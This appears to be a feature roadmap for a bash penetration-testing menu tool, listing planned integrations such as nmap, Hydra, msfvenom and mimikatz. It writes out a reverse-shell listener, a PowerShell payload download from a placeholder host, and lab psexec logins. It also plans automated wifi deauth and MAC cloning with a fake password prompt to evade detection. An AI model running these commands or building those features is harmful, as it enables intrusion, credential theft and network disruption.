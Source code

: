 # Future Features

**This is the resource schedule, if you need something that is not on that list you have three options:**</br>
**1** - You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list.</br>
**2** - If you need urgency, you can write the code and send it to me.</br>
**3** - Pay me to implement the feature. <br/>

0.0. O menu do change mac adress não esta fucnionando corretamente corrige lá
0.1. Revisa se esta funcionando certinho e altera de torghost para torghostNG. tem o comando que deve ser usado no notes
1.1 Implementa o Jhon The reaper aqui no codigo, tem a logica no notion
 2 - Muda todas as vezes que preciso solicitar uma placa de wifi para o nome que vem da função selectedwificard
 9 - Estuda e implemneta nmap
 9.1 Faz uma opção no nmap com vull script like sudo nmap -sS --script vuln -vv www.siteemquestao.com.br
 10 - Faz um menu para ganhar acesso powershell em windows usando o comando a seguinr  \psexec.py administrator@10.10.10.27\" tem um exemplo no primeior hack do hackthebox "
 10.1 - Revist the script, read the script from the top to the begining and see what can be done better
 11 - Faz um menu pra conectar no msql usando o padrao acima, sendo que o login é o começo o ip é o do servidor mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
 12 - Um menu para criar um webserver temporario usando python ---- sudo python3 -m http.server 80
 13 - Muda todas as variaveis para minuscula é uma boa pratica pois variaveis do sistema são em maiuscula
 14 - Faz um menu pra dar start no metaspoit: msfdb int .... msfconsole
 15 - Add -vv para todos os comandos nmap do script pra poder acompanhar em tempo real
 16 - Cria um menu para bruteforce e dentro do menu na hora que escolhe faz uma observação em cima como uma opçoa 0 por exempol ocrito 0 - OBS! If you need to scan a dns or vhost there is a alwsome tool called GoBuster, study.
 17 - Estuda e coloca um menu pra dar airodump que exibe as conexões, se não me engano é sudo irodump-ng wlan0 mas testa e acho que precisa colocar em modo monitor também usando o airclack ou algo assim
 18 - Implementa o Hydra, é uma exelente ferramenta de bruteforce, já tem no notes uma logica de programação
 19 - Coloca o dirsearch para rodar como sudo, pois assim consegue salvar logs normalmente, pois esta sem permissõa
 20 - tem umas opções mais completas no dirsearch como por exemplo usar uma lista de extenções, que deve ser tipo cvs, além de outras coisas, como recursivo ou nao e o nivel de recursividade, coloca no codigo, estuda melhor e planeja pra diexar o mais completo possivel
 20.1 - Revist the script, read the script from the top to the begining and see what cam be done better
 21 - subistituo onde esta test por [[ comand ]] é um jeito melhor de se fazer e o outro jetio esta obsoleto
 22 - estuda o crunch e implementa no script é um otimo programa para gerar listas de senhas para quando precisar descobrir uma senha mas já tem um padrão em mente
 24 - Sera que este é o mlehor jeit ode fazer menu possivel? Vis sobre a possibilidade de usar o comand select do bash, da uma estudada nisso, pode ser uma boa tem mais aqui https://wiki.bash-hackers.org/syntax/ccmd/user_select
 27 - Eu não sei se é possivle, mas se for que tal dar uma estudada no pyshark? e implentar aqui em um script de bash, é possivel ou so quando este script mudar pra python?
 28 - Implement patetor? it is a best tool? then Hydra? Search more.
 29 - Implement study mor about reponder.py, and add to the script a method to crack a password using jhon the reaper Faz um menu para o jhon the reaper john SMB-NTLMv2-SSP-192.168.100.101.txt –wordlist=/usr/share/wordlists/rockyou.txt porque é relacionado ao responder.py
 30 - Tem algum jetio de colocar romandos pra rodar no metasploit por aqui? seria sensacional, ai conforme eu for aprendendo eu vou adiciondo, tambem tem a questão que tira pra aprender bem e se possivel até fazer um curso de metasploit é uma ideia exelente, planeja melhor
 30.1 - Revist the script, read the script from the top to the begining and see what cam be done better
 31 - Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script
 32 - Study and implement hashcat
 32 - Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness
34 - Replace all echos for printf, its better
35 - See how i avoid to use eval, its too bat for security
36 - Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile
38 - Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux
39 - Study Msfvnom and implement, it is an excelent payload generator[:]
40 - Study and implent rlwrap nc -lnvp 4444 its realy good to reverse shells and study about the rlwarp ok? to understend perfectly. Maybe using pwncat?
40.1 - Revist the script, read the script from the top to the begining and see what cam be done better
41 - Create a menu with util stuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell
42 - Put in dirsearch an option to save the output, its awsome to CTFs  and reports
43 - study the best directory wordlist, to use in dirbuster or afuzz, or another tool
44 - Study and implement wpscan, its a good tool to break into wordpress sites
45 - Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some creat linux tools for this maybe only implement is suficient
46 - Study and implement rustscan, its a realy good tool. There is a github repository
47 - Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts
48 - Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti
49 - Create a Function who update the script with the last features implemented in the github version
50 - Revist the script, read the script from the top to the begining and see what cam be done better
53 - If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible
54 - Organize the menu in a better way, is too confuse
55 - Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"
56 - Study massscan, its good for mass scaning ports, or rustscan? What is better?
57 - Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about
58 - Study and implement msfvenom its a great tool to make palyloads
59 - Study and implement nikto
60 - Revist the script, read the script from the top to the begining and see what cam be done better
62 - Study and implement termshark, its good to see pcaps in terminal
63 - Study and implement FFUF, its really fast because its in go
64 - Implement option so search ".bak" in in websearches, it really good to see some codes
65 - Study and implement Uchecker, its a good tool to check for not uptodate tools on servers
66 - Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users
77 - Remove cpf generator, there is better tools online
78 -  Study and implment sublist3r, its a really great scanner for subdomains ussing ossint
79 - Study and implement pwncat, its a really great reverse shell hander, is the one by calleb stuart, not the other
80 - Revist the script, read the script from the top to the begining and see what cam be done better
81 - Study and implment nikton its a good webscaner
82 - Study and implment social engenner tookit, its really god to work with social engineer
83 - Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter
84 - Implement wfuzz its preaty great
85 - Study and Implement Sqlmap
86 - Implement te 'sectlist' program from kali, its a copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?
87 - Study and implent enum4linux, its preaty good to use to enumerate samba shares
88 - Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose
89 - Study and implement sherlock, its a great tool for OSINT
90 - Revist the script, read the script from the top to the begining and see what cam be done better
91 - Study and implement airgedon its good to do deauth atacks in softwarey
92 - What i can do to make this script more beautiful? Maybe some colors or ident?
93 - Maybe Implement RustScan? Its so fast
